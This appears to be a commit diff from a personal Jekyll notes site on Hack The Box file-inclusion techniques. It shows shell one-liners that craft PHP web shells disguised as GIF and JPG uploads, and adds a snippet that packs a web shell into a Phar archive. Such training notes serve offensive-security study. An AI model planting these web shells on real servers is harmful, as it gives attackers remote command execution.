

Before and after one commit to HenryEarl/HenryEarl.github.io, a Jekyll site: the page built from docs/HowToDocs/HackTheBox/Exploitation/File_Inclusion/LFI_and_File_Uploads.md, in a window 1280 px wide. Shown: the top 754 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files.

````diff
--- a/docs/HowToDocs/HackTheBox/Exploitation/File_Inclusion/LFI_and_File_Uploads.md
+++ b/docs/HowToDocs/HackTheBox/Exploitation/File_Inclusion/LFI_and_File_Uploads.md
@@ -13,3 +13,15 @@ Jerad Rodgers@htb[/htb]$ echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
 ```
 Jerad Rodgers@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
 ```
+
+## Phar Upload
+
+```php
+<?php
+$phar = new Phar('shell.phar');
+$phar->startBuffering();
+$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
+$phar->setStub('<?php __HALT_COMPILER(); ?>');
+
+$phar->stopBuffering();
+```
````
Also changed, not shown: docs/HowToDocs/HackTheBox/Exploitation/File_Inclusion/Log_Poisoning.md (added, +9 -0 lines).
